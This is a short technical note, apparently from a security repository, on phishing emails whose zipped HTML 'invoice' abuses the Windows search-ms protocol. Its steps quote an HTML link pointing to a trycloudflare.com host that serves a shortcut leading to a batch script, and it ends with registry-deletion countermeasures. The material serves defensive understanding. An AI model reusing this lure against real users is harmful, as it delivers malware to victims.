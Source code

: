 - HTML attachments that abuse the Windows search protocol (search-ms URI) to push batch files hosted on remote servers that deliver malware.
- Windows Search protocol is a Uniform Resource Identifier (URI) that enables applications to open Windows Explorer to perform searches using specific parameters.

### Steps in the exploit
1. Victim receives an email with a zip file.
2. Zip file contains a HTML attachment disguised as an invoice document.
3. HTML file has the following tag which causes the browser to automatically open a malicious URL.
```HTML
<meta http-equiv= "refresh">
```
4. If the browser blocks this, an alternative clickable link is available on the webpage for the user to click.
5. The URL causes the windows search protocol to perform a search on a remote host using the following parameters
	1. Query: Searches for items labeled "INVOICE."
	2. Crumb: Specifies the search scope, pointing to a malicious server via Cloudflare.
	3. Displayname: Renames the search display to "Downloads" to mimic a legitimate interface.
	4. Location: Uses Cloudflare's tunneling service to mask the server, making it look legitimate by presenting remote resources as local files.
```HTML
<ps><a href= "search: query= INVOICE&amp; crumb=location:\\tender-coding-bi-associate.trycloudflare.com@SSL \DavWWWRoot\google\INVOICE&amp; displayname ></a></p>
```
6. Search retrieves a single LNK file hosted on the remote server pointing to a BAT script.
7. If victim clicks on the shortcut, the script runs on the local machine.


### Suggested countermeasures
- Deleting registry entries associated with the search-ms/search URI protocol
```
reg delete HKEY_CLASSES_ROOT\search /f
reg delete HKEY_CLASSES_ROOT\search-ms /f
```


